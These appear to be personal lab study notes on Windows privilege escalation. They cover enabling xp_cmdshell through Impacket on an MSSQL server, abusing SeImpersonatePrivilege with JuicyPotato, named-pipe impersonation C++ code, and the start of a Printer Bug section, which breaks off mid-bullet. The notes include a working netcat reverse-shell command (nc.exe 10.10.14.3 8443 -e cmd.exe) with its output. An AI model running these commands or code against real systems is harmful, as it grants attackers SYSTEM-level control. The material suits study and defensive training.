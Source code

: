 
#Windows_Privesc 

---

**Enabling xp_cmdshell**
- We can run OS commands via **Impacket MSSSQL** by typing `enable_xp_cmdshell` to get the following output:
```shell-session
SQL> enable_xp_cmdshell

[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(WINLPE-SRV01\SQLEXPRESS01): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install
```

=> We can run OS commands from a MySQL DB as follows:
```shell-session
SQL> xp_cmdshell whoami

output                                                                             

--------------------------------------------------------------------------------   

nt service\mssql$sqlexpress01
```

- We can also get the current user privileges as follows:
```shell-session
SQL> xp_cmdshell whoami /priv

output                                                                             

--------------------------------------------------------------------------------   
                                                                    
PRIVILEGES INFORMATION                                                             

----------------------                                                             
Privilege Name                Description                               State      

============================= ========================================= ========   

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled 
```
**Note**: Since `SEImpersonatePrivilege` is enabled => we can impersonate another user, i.e. `NT AUTHORITY\SYSTEM`


### Escalating Privileges using JuicyPotato

- To get a reverse shell with **JuicyPotato** we use the following command:
```shell-session
SQL> xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe" -t *

output                                                                             

--------------------------------------------------------------------------------   

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 53375                               
                                                                            
[+] authresult 0                                                                   
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM                                                                                                    
[+] CreateProcessWithTokenW OK                                                     
[+] calling 0x000000000088ce08
```

**Note**:
- `-p` - specifies the program that will be run with escalated privileges, i.e. `cmd.exe`
- `-a` - specifies the command that will be run in `cmd.exe`, i.e `c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe`
- `c:\tools\nc.exe 10.10.14.3 8443 -e cmd.exe` - means that once connection to `10.10.14.3` is established, `cmd.exe` is launched and its output will be redirected to the network socket
- `-t *`  - This specifies the CLSID (Class Identifier) of the COM server. The asterisk (`*`) indicates that JuicyPotato should try multiple possible CLSIDs to find one that works for the privilege escalation.



### Privilege Impersonation

- Two main methods that can be used:
	- `CreateProcessWithToken` + `SeImpersonatePrivilage`
	- `CreateProcessAsUser` + `SeAssingPrimaryTokenPrivilege`

![[Pasted image 20240825173508.png]]

- From the above function we derive two other functions which work the same as the above but require a token:
![[Pasted image 20240825173753.png]]

- Since we have no way of generating a token with the correct permissions ourselves, the best way for the above attack is to impersonate a named pipe as described above.\

**Impersonating a User with a Named Pipe**
- **Main Idea**: The attacker tricks `NT AUTHORITY\SYSTEM` to connect to an RPC server they control by leveraging some of the pecularities of the `ISTORAGE COM` interface

- **Pipe Definition**: _a pipe is a section of shared memory that processes use for communication. The process that creates a pipe is the pipe server. A process that connects to a pipe is a pipe client. One process writes information to the pipe, then the other process reads the information from the pipe._” In other words, **pipes are one of the many ways of achieving Inter-Process Communications** (IPC) on Windows, just like RPC, COM or sockets for example.
- The code below can be used to impersonate a named pipe

```C++
HANDLE hPipe = INVALID_HANDLE_VALUE;
LPWSTR pwszPipeName = argv[1];
SECURITY_DESCRIPTOR sd = { 0 };
SECURITY_ATTRIBUTES sa = { 0 };
HANDLE hToken = INVALID_HANDLE_VALUE;

if (!InitializeSecurityDescriptor(&sd, SECURITY_DESCRIPTOR_REVISION))
{
    wprintf(L"InitializeSecurityDescriptor() failed. Error: %d - ", GetLastError());
    PrintLastErrorAsText(GetLastError());
    return -1;
}

if (!ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL))
{
    wprintf(L"ConvertStringSecurityDescriptorToSecurityDescriptor() failed. Error: %d - ", GetLastError());
    PrintLastErrorAsText(GetLastError());
    return -1;
}

if ((hPipe = CreateNamedPipe(pwszPipeName, PIPE_ACCESS_DUPLEX, PIPE_TYPE_BYTE | PIPE_WAIT, 10, 2048, 2048, 0, &sa)) != INVALID_HANDLE_VALUE)
{
    wprintf(L"[*] Named pipe '%ls' listening...\n", pwszPipeName);
    ConnectNamedPipe(hPipe, NULL);
    wprintf(L"[+] A client connected!\n");

    if (ImpersonateNamedPipeClient(hPipe)) {

        if (OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &hToken)) {

            PrintTokenUserSidAndName(hToken);
            PrintTokenImpersonationLevel(hToken);
            PrintTokenType(hToken);

            DoSomethingAsImpersonatedUser();

            CloseHandle(hToken);
        }
        else
        {
            wprintf(L"OpenThreadToken() failed. Error = %d - ", GetLastError());
            PrintLastErrorAsText(GetLastError());
        }
    }
    else
    {
        wprintf(L"ImpersonateNamedPipeClient() failed. Error = %d - ", GetLastError());
        PrintLastErrorAsText(GetLastError());
    }
    
    CloseHandle(hPipe);
}
else
{
    wprintf(L"CreateNamedPipe() failed. Error: %d - ", GetLastError());
    PrintLastErrorAsText(GetLastError());
}
```

**Code Explanation**:
```C++
if (!ConvertStringSecurityDescriptorToSecurityDescriptor(L"D:(A;OICI;GA;;;WD)", SDDL_REVISION_1, &((&sa)->lpSecurityDescriptor), NULL))
{
    wprintf(L"ConvertStringSecurityDescriptorToSecurityDescriptor() failed. Error: %d - ", GetLastError());
    PrintLastErrorAsText(GetLastError());
    return -1;
}
```
- This code converts the string security descriptor `D:(A;OICI;GA;;;WD)` to a security descriptor. This security descriptor means:
	- `D` - means that the script defines a `DACL`
	- `A` - Means that this is an **Access Control Entry(ACE)**
	- `GA` - `GENERIC_ALL`(Allow full control)
	- `WD` - to everybody in the `Everyone` group(`WD` = `Everyone` grooup)
	- `OICI` - `Object Inherit Container Inherit` means that this will apply to not only this process but its children also

- With the above code we can impersonate a named pipe using the following command:
**Attacker Shell**
```cmd-shell
NamedPipeImpersonation.exe \\.\pipe\foo123
```

**Client Shell**
```cmd-shell
echo test > \\localhost\pipe\foo123
```



### Getting a System Token

---


**Printer Bug**
- Based on a single RPC call to a function exposed by the **Print Spooler** service
```C++
DWORD RpcRemoteFindFirstPrinterChangeNotificationEx( 
    /* [in] */ PRINTER_HANDLE hPrinter,
    /* [in] */ DWORD fdwFlags,
    /* [in] */ DWORD fdwOptions,
    /* [unique][string][in] */ wchar_t *pszLocalMachine,
    /* [in] */ DWORD dwPrinterLocal,
    /* [unique][in] */ RPC_V2_NOTIFY_OPTIONS *pOptions)
```

- This service monitors changes to the printer objects and sends change notifications to the printer clients via **RPC** calls using either `RpcRouterReplyPrinter` or `RpcRouterReplyPrinterEx`
- 